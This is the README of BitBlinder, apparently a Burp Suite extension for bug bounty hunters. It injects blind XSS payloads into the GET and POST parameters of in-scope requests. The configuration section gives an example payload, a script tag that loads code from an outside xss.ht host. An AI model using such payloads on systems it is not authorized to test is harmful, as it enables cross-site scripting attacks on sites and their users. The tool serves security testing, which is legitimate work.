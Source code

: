 # BitBlinder

**THIS TOOLS IS IN EARLY BETA USE IT ON YOUR OWN RISK**  
Burp extension helps in finding blind xss vulnerabilities by injecting xss payloads in every request passes throw BurpSuite
```
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
-  Developer: Ahmed Ezzat (BitTheByte)      -
-  Github:    https://github.com/BitTheByte -
-  Version:   0.03b                         -
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
[WARNING] MAKE SURE TO EDIT THE SETTINGS BEFORE USE
[WARNING] THIS TOOL WILL WORK FOR IN-SCOPE ITEMS ONLY
[WARNING] THIS TOOL WILL CONSUME TOO MUCH BANDWIDTH
```

# Configuration
Currenlty there is no gui window to configure the tool so you'll need to edit the code directly
Edit the current settings in the `.py` file
```python
OP_INJECTION_PAYLOADS_LIST = [
  'your_blind_xss_payload'  # example =>  "><script%20src="https://myusername.xss.ht><script>
]
```


# How to use
1. Load the extension to your burpsuite
2. Add your target to scope **It'll only work for inscope items**
3. Continue your hunting session **Make sure to do alot of actions [Forms,Search,...]**
4. Monitor the output in extension's output tab

**Note:** By the nature of this tool it'll make alot of requests so you may get blocked by WAF or experience slow internet connection


# In a nutshell

When user visits [https://example.com?vuln=123&vuln2=abc](https://example.com?vuln=123&vuln2=abc)  
This tool will generate the following 2 requests (in the background with effecting the current session)  
1. [https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc](https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc)
2. [https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD]](https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD])

The previous example also applies to `POST` parameters


# Current version
```
Version 0.03b
```


# TO-DO (By priority)
- GUI
- Fix endless request loops
- Injection in headers
- Option to exclude paramters/hosts/endpoints
- Better output/logging system
